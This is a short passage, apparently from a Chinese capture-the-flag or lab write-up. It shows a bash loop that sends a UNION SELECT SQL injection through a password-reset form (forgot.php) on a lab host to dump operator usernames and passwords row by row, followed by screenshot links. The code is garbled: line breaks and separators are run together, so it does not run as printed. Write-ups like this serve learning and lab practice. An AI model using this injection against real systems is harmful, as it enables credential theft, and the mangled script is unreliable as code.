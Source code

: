 使用脚本探测那一列是电子邮箱的地址。

```bash
for i in $(seq 0 300); dopayload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(__username_, ':', __password_, '@b.com') FROM supercms.operators LIMIT 1 OFFSET $i-- -"curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]*@b.com' done
```

[![](assets/1703640271-7b411d8c999f26360c5db2ee38239798.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155530-23c33c20-a3c4-1.png)

[![](assets/1703640271-58b87f2b6ffc353039dc318bbb33a982.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155535-270e41ae-a3c4-1.png)
